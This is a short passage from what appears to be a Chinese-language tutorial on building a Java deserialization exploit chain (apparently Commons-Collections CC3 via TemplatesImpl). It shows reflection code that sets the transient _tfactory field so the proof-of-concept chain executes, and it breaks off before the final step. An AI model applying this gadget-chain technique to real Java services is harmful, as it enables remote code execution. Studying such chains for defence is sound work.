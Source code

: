 ```java
private transient TransformerFactoryImpl _tfactory = null;
```

既然他是不参与反序列化的参数，那么它一定在readObject方法中被定义。

![img](img/1667974936641-ddcde28d-ca11-4196-b4e8-41c14bd4356d.png)

所以定义的时候也只需要按照这个类型来就可以。POC应该这么加

```java
Field tfactoryField = cc3.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
```

到最后还有一点需要注意，就是完整的链子执行，还有最后一个逻辑部分

